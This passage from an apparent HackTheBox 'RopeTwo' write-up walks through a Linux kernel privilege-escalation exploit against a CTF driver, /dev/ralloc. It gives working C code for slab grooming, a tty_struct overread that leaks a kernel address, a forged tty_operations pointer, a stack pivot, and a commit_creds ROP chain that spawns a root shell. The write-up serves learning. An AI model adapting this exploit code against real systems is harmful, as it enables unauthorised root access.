[`tty_operations`](https://elixir.bootlin.com/linux/v5.0/source/include/linux/tty_driver.h#L254 "https://elixir.bootlin.com/linux/v5.0/source/include/linux/tty_driver.h#L254")
structure at byte-offset 24 that is full of function pointers, and it
can be easily allocated by simply opening `/dev/ptmx`. So, in essence,
we need to do the following:

1.  Get 2 adjacent slabs with a size of 0x400
2.  Free the latter of them
3.  Immediately open /dev/ptmx to hopefully get it’s tty_struct
    allocated into the freed slab
4.  Overread the first slab by specifying a read size of 0x420 and check
    for the magic bytes at buffer offset 0x400
5.  Save the tty_operations pointer and overwrite it with a pointer to a
    user controlled structure which then contains pointers to a ROP
    chain
6.  ROP our way to privilege escalation and invoke a shell
7.  Restore the old tty_operations pointer and cleanly close the
    /dev/ptmx handle

For interacting with the `/dev/ralloc` char device, a few helper
functions have been created:

``` brush:
long buffer[132] = {0};
int fd, fd_ptmx; 
int idx_overflow[2] = {-1, -1};

int allocate_chunk(unsigned long index, unsigned long size)
{
    unsigned long tmp[2];
    tmp[0] = index;
    tmp[1] = size;

    int result = ioctl(fd, 0x1000, tmp);

    if (result < 0)
        printf("Failed to allocate %ld bytes at index %ld\n", size, index);

    return result;
}

int free_chunk(unsigned long index)
{
    unsigned long tmp[1];
    tmp[0] = index;

    int result = ioctl(fd, 0x1001, tmp);

//  if (result < 0)
//      printf("Failed to free chunk at index %ld\n", index);

    return result;
}


int write_to_chardev(unsigned long index, unsigned long size, long ptr)
{
    unsigned long tmp[3];
    tmp[0] = index;
    tmp[1] = size;
    tmp[2] = ptr;

    int result = ioctl(fd, 0x1002, tmp);

    if (result < 0)
        printf("Failed to write %ld bytes from %p to index %ld\n", size, (void *)ptr, index);

    return result;
}

int read_from_chardev(unsigned long index, unsigned long size, long ptr)
{
    unsigned long tmp[3];
    tmp[0] = index;
    tmp[1] = size;
    tmp[2] = ptr;

    int result = ioctl(fd, 0x1003, tmp);

    if (result < 0)
        printf("Failed to read %ld bytes from index %ld to %p\n", size, index, (void *)ptr);

    return result;
}
```

### Finding 2 adjacent slabs

Since the kernel rarely forgives changing arbitrary pointers in
kernel-space, a way for reliably finding adjacent slabs (and identifying
the target structure) has to be found. Thus, I decided to allocate all
32 ralloc_items inside the array, each with a unique pattern that also
identifies the index it was allocated at. Thus, I could then overread
all items and check the value at byte offset 0x400 (and thus could also
identify when e.g. item \#13 resides behind item \#7). Since 32 items
sometimes aren’t enough to get a hit, or the subsequent allocation of
the tty_structure might fail, this whole process was put into a loop
that adjusted the pattern to also identify the loop’s iteration (to
prevent finding an old chunk from a previous run):

``` brush:
int get_leak(long *buffer, long *leaks)
{
    long leak = 0, heap_leak = 0;
    long i = 0x1337133713370000, j, k;

    do {
        memset(buffer, 0, 132);
        for (i; i<0x1337133800000000; i+=0x0100) {
            for (j=0; j<32; j++) {
                allocate_chunk(j, 1024);
                buffer[0] = i+j;
                write_to_chardev(j, 1024, (long)buffer);
            }
            
            for (j=0; j<32; j++) {
                read_from_chardev(j, 1056, (long)buffer);
                for (k=j+1; k<32; k++) {
                    if (buffer[128] == i+k) {
                        printf("[+] Found adjacent slabs at index %d, followed by %d\n", (int)j, (int)k);
                        idx_overflow[0] = (int)j;
                        idx_overflow[1] = (int)k;
                        break;
                    }
                }
                if (idx_overflow[0] > -1)
                    break;
            }
            if (idx_overflow[0] > -1)
                break;

            for (j=0; j<32; j++)
                free_chunk(j);
        }
        
        if (idx_overflow[0] == -1) {
            printf("[-] Failed to find adjacent slabs! Terminating...\n");
            exit(1);
        }

        free_chunk(idx_overflow[1]);
        if ((fd_ptmx = open("/dev/ptmx", O_RDWR|O_NOCTTY)) < 0) {
            printf("[-] Failed to open /dev/ptmx\n");
            exit(-1);
        }

        memset(buffer, 0, 132);
        read_from_chardev(idx_overflow[0], 1056, (long)buffer);
        leak = buffer[131];

        if (((leak & 0xfff) == 0x6a0) && ((leak & 0xffffffff00000000) == 0xffffffff00000000)) {
            printf("[+] Got kernel leak 0x%016lx\n", leak);
        } else {
            leak = 0;
            for (j=0; j<32; j++) {
                if (j == idx_overflow[1])
                    continue;
                free_chunk(j);
            }
            i+=0x0100;
            idx_overflow[0] = -1;
            idx_overflow[1] = -1;
        }
    } while (leak == 0);
    
    leaks[0] = leak;
    leaks[1] = heap_leak;
    
    return 0;
}
```

Once 2 adjacent slabs were found and a defined kernel address got
leaked, the addresses of useful functions and gadgets(which were found
using `ropper`) can be calculated:

``` brush:
    // attempt to leak kernel address
    get_leak(buffer, leaks);

    printf("[+] arr[1] is at 0x%016lx\n", (leaks[1] & 0xfffffffffffff400));
    printf("[+] tty_struct is at 0x%016lx\n", (leaks[1] & 0xfffffffffffff400) + 0x400);

    // calculate addresses of commit_creds and prepare_kernel_cred
    commit_creds = (_commit_creds)(leaks[0] - OFFSET_COMMIT_CRED);
    prepare_kernel_cred = (_prepare_kernel_cred)(leaks[0] - OFFSET_PREPARE_KERNEL_CRED);

    // Setup fake_operations at array index 12 (the ioctl callback)
    stack_pivot = (leaks[0] - OFFSET_XCHG_EAX_ESP);
    fake_tty_operations[12] = (void *)stack_pivot;
    old_ops = buffer[131];
    buffer[131] = (long)fake_tty_operations;
    
    // Prepare fake stack
    stack_pivot = stack_pivot & 0xffffffff;
    long mmap_target = stack_pivot & PAGE_MASK;
    fake_stack = mmap((void *)mmap_target, 0x10000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memset(fake_stack, 0x00, 0x10000);
    printf("[+] Fake stack is at 0x%016lx\n", (long)fake_stack);
```

The `prepare_kernel_cred` and `commit_creds` functions are required to
escalate the privileges of the soon-to-be-invoked shell (otherwise, the
shell would inherit the calling process’ privileges). To reliably jump
into the ROP chain, it is advised to setup a fake stack (where return
addresses are taken from). This is achieved by jumping to a specific
`xchg eax, esp` instruction where RAX will contain the address of that
instruction. So, the fake stack can be easily allocated at a reliable
(and free) memory location. In order to cleanly return to user space,
later, some flags have to be saved and placed at the stack.
Additionally, instead of doing all the heavy lifting of a context switch
manually, a
[KPTI_trampoline](https://elixir.bootlin.com/linux/v5.0/source/arch/x86/entry/entry_64.S#L608 "https://elixir.bootlin.com/linux/v5.0/source/arch/x86/entry/entry_64.S#L608")
is used to return into a user-land function (after SMEP was bypassed
using the trampoline):

``` brush:
    // Setup ROP chain
    save_stats();
    int idx = 0;
    long *ropchain = (long *)stack_pivot;
    ropchain[idx++] = (leaks[0] - OFFSET_POP_RDI);
    ropchain[idx++] = 0;
    ropchain[idx++] = (long)prepare_kernel_cred;
    ropchain[idx++] = (leaks[0] - OFFSET_XCHG_RAX_RDI);
    ropchain[idx++] = (long)commit_creds;
    ropchain[idx++] = (leaks[0] - OFFSET_KPTI_TRAMPOLINE);
    ropchain[idx++] = 0xdeadbeefcafebabe;   // RAX
    ropchain[idx++] = 0xdeadbeefcafebabe;   // RDI
    ropchain[idx++] = (long)shell;
    ropchain[idx++] = user_cs;
    ropchain[idx++] = user_eflags;
    ropchain[idx++] = user_sp;
    ropchain[idx++] = user_ss;
    
    // overwrite *ops with fake tty operations struct
    printf("Going to overwrite *ops pointer...\n");
    write_to_chardev(idx_overflow[0], 1056, (long)buffer);
```

By replacing the `ioctl` callback with the stack pivot (the
`xchg eax, rsp`) and then invoking an ioctl call on the ptmx file
descriptor, the ROP chain will be called:

``` brush:
    //Call the ioctl(ioctl -> unlocked_ioctl -> get_root)
    printf("Going to call ioctl...\n");
    ioctl(fd_ptmx, 0, 0);

    // restore old tty_operations
    buffer[131] = old_ops;
    write_to_chardev(idx_overflow[0], 1056, (long)buffer);

    for (i=0; i<32; i++) {
        if (i == idx_overflow[1])
            continue;
        free_chunk(i);
    }

    if (close(fd) != 0)
        printf("Failed to close ralloc\n");
    if (close(fd_ptmx) != 0)
        printf("Failed to close ptmx\n");

    return 0;
}
```

And finally, we can gain a root shell (though the exploit binary will
also do some other things in the background, that can be checked from
the code on
[Github](https://github.com/HomeSen/CTFs/tree/master/HackTheBox.eu/RopeTwo "https://github.com/HomeSen/CTFs/tree/master/HackTheBox.eu/RopeTwo")):



There might be a follow-up post about some of the minor things I
learned, and that helped a lot, especially with debugging `rshell`.
Among other things: re-linking binaries against non-native libc and ld;
re-dressing stripped binaries; and probably a lot more that I currently
can’t remember 😉
